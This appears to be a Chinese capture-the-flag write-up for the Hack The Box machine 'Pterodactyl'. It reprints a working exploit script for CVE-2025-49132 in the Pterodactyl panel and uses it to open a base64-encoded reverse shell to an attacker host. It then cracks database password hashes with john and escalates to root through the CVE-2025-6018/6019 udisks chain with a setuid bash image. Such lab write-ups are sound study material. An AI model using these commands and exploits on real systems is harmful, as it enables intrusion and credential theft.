


Nmap 1 2 3 4 5 6 7 8 Nmap scan report for 10.129.23.53 Host is up (0.88s latency). Not shown: 65496 filtered tcp ports (no-response), 35 filtered tcp ports (admin-prohibited) PORT STATE SERVICE 22/tcp open ssh 80/tcp open http 443/tcp closed https 8080/tcp closed http-proxy
先看80端口，查看changelog.txt
1 2 3 4 5 6 7 8 9 10 11 12 [Installed] Pterodactyl Panel v1.11.10 -------------------------------------- - Installed Pterodactyl Panel. - Configured environment: - PHP with required extensions. - MariaDB 11.8.3 backend. [Enhanced] PHP Capabilities ------------------------------------- - Enabled PHP-FPM for smoother website handling on all domains. - Enabled PHP-PEAR for PHP package management. - Added temporary PHP debugging via phpinfo()
可以看到，该靶机安装了Pterodactyl面板版本号为v1.11.10且安装了PHP-PEAR，以及存在一个phpinfo.php页面。
Subdomain 使用ffuf工具进行子域名收集
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 ┌──(kali👻Thr2on1)-[~/Websec/HTB/Pterodactyl] └─$ ffuf -u http://pterodactyl.htb -H "Host: FUZZ.pterodactyl.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -ac /'___\ /' ___\ /'___\ /\ \__/ /\ \__/ __ __ /\ \__/ \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\ \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/ \ \_\ \ \_\ \ \____/ \ \_\ \/_/ \/_/ \/___/ \/_/ v2.1.0-dev ________________________________________________ :: Method : GET :: URL : http://pterodactyl.htb :: Wordlist : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt :: Header : Host: FUZZ.pterodactyl.htb :: Follow redirects : false :: Calibration : true :: Timeout : 10 :: Threads : 40 :: Matcher : Response status: 200-299,301,302,307,401,403,405,500 ________________________________________________ panel [Status: 200, Size: 1897, Words: 490, Lines: 36, Duration: 621ms]
扫出来一个panel.pterodactyl.htb，访问后是翼龙面板的登录页面。
CVE-2025-49132 在Google上搜索pterodactyl的CVE，找到CVE-2025-49132 RCE漏洞（漏洞版本：version < 1.11.1）文件包含本地的pearcmd.php从而命令执行。下载exp（https://github.com/0xtensho/CVE-2025-49132-poc）

1 2 3 4 5 6 7 8 9 import sys, oshost=sys.argv[1 ] payload=sys.argv[2 ].replace(' ' ,'\\$\\\\{IFS\\\\}' ) os.system(f"curl \"http://{host} /locales/locale.json?+config-create+/&locale=../../../../../usr/share/php/PEAR&namespace=pearcmd&/<?=system('{payload} ');die();?>+/tmp/payload.php\"" ) os.system(f"curl \"http://{host} /locales/locale.json?locale=../../../../../tmp&namespace=payload\"" )
然后利用脚本进行反弹shell，利用该脚本反弹shell的时候需要注意base64字符串中不能出现+号，可以在payload里加上适量的空格直到base64encode后的字符串中不存在+号。
监听本地4444端口，执行反弹shell脚本
1 2 ┌──(kali👻Thr2on1)-[~/Websec/HTB/Pterodactyl/CVE-2025-49132-poc] └─$ python3 poc.py panel.pterodactyl.htb "echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTYuOTAvNDQ0NCAwPiYx | base64 -d|bash"
USER 靶机环境中有python，先提升一下shell的交互性
1 python3 -c 'import pty;pty.spawn("/bin/bash")'
查看/etc/passwd文件，找到两个可登录的用户
1 2 headmonitor:x:1001:100::/home/headmonitor:/bin/bash phileasfogg3:x:1002:100::/home/phileasfogg3:/bin/bash
在环境变量中可以找到MariaDB数据库的相关信息
1 2 3 4 DB_PASSWORD=PteraPanel DB_USERNAME=pterodactyl DB_CONNECTION=mysql DB_DATABASE=panel
连接数据库
1 mysql -h 127.0.0.1 -u pterodactyl -pPteraPanel -D panel
在users表中有两条用户数据
1 2 3 4 5 6 7 8 9 MariaDB [panel]> sselect * from users ; select * from users ;+----+-------------+--------------------------------------+--------------+------------------------------+------------+-----------+--------------------------------------------------------------+--------------------------------------------------------------+----------+------------+----------+-------------+-----------------------+----------+---------------------+---------------------+ | id | external_id | uuid | username | email | name_first | name_last | password | remember_token | language | root_admin | use_totp | totp_secret | totp_authenticated_at | gravatar | created_at | updated_at | +----+-------------+--------------------------------------+--------------+------------------------------+------------+-----------+--------------------------------------------------------------+--------------------------------------------------------------+----------+------------+----------+-------------+-----------------------+----------+---------------------+---------------------+ | 2 | NULL | 5e6d956e-7be9-41ec-8016-45e434de8420 | headmonitor | headmonitor@pterodactyl.htb | Head | Monitor | $2y$10$3WJht3 /5GOQmOXdljPbAJet2C6tHP4QoORy1PSj59qJrU0gdX5gD2 | OL0dNy1nehBYdx9gQ5CT3SxDUQtDNrs02VnNesGOObatMGzKvTJAaO0B1zNU | en | 1 | 0 | NULL | NULL | 1 | 2025-09-16 17:15:41 | 2025-09-16 17:15:41 | | 3 | NULL | ac7ba5c2-6fd8-4600-aeb6-f15a3906982b | phileasfogg3 | phileasfogg3@pterodactyl.htb | Phileas | Fogg | $2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi | 6XGbHcVLLV9fyVwNkqoMHDqTQ2kQlnSvKimHtUDEFvo4SjurzlqoroUgXdn8 | en | 0 | 0 | NULL | NULL | 1 | 2025-09-16 19:44:19 | 2025-11-07 18:28:50 | +----+-------------+--------------------------------------+--------------+------------------------------+------------+-----------+--------------------------------------------------------------+--------------------------------------------------------------+----------+------------+----------+-------------+-----------------------+----------+---------------------+---------------------+ 2 rows in set (0.001 sec)
将两个用户的hash保存为pass.hash，然后使用john爆破密码
1 2 headmonitor:$2y$10$3WJht3/5GOQmOXdljPbAJet2C6tHP4QoORy1PSj59qJrU0gdX5gD2 phileasfogg3:$2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi
1 john pass.hash --wordlist=/usr/share/wordlists/rockyou.txt
得到phileasfogg3的密码为!QAZ2wsx
ROOT 在/var/mail/目录下可以获取phileasfogg3邮箱中的内容，这里给出了提示要利用udisks来进行提权
1 2 3 4 5 6 7 8 9 10 Attention all users, Unusual activity has been observed from the udisks daemon (udisksd). No confirmed compromise at this time, but increased vigilance is required. Do not connect untrusted external media. Review your sessions for suspicious activity. Administrators should review udisks and system logs and apply pending updates. Report any signs of compromise immediately to headmonitor@pterodactyl.htb — HeadMonitor System Administrator
搜到一个提权利用链（https://www.secrss.com/articles/80016）CVE-2025-6018、CVE-2025-6019
CVE-2025-6018 该漏洞允许远程非特权攻击者强制pam_env模块将任意变量添加到 PAM 的环境中，以获取 polkit 策略的“allow_active”认证，从而获得本地用户权限(可执行关机、访问敏感接口等操作)
CVE-2025-6019 该漏洞源于udisks守护进程挂载文件系统中会调用libblockdev库，而libblockdev挂载时没有使用 nosuid 和 nodev 标志，致使拥有“allow_active”权限的用户可利用此漏洞获取 root 权限
利用 在github下载exp（https://github.com/muyuanlove/CVE-2025-6018-CVE-2025-6019-Privilege-Escalation-Exploit）
0x01 制作恶意镜像文件
在攻击机上依次执行以下命令
1 2 3 4 5 6 7 8 9 10 11 dd if =/dev/zero of=xfs.image bs=1M count=300mkfs.xfs -f xfs.image mkdir mntsudo mount -t xfs xfs.image mntsudo cp /bin/bash mnt/bashsudo chmod 4755 mnt/bashsudo umount mntrmdir mnt
创建完成后将镜像文件上传至靶机
0x02 利用CVE-2025-6018
在靶机上配置PAM
1 2 3 4 cat > ~/.pam_environment << 'EOF' XDG_SEAT OVERRIDE=seat0 XDG_VTNR OVERRIDE=1 EOF
配置完成后退出，重新登陆
0x03 利用CVE-2025-6019
重新使用ssh登录后，将exp.sh（github下载的）上传至靶机，然后执行
1 2 3 4 5 6 gdbus call --system --dest org.freedesktop.login1 \ --object-path /org/freedesktop/login1 \ --method org.freedesktop.login1.Manager.CanReboot bash exp.sh
即可拿到root权限
1 2 bash-5.2# id uid=1002(phileasfogg3) gid=100(users ) euid=0(root) groups =100(users )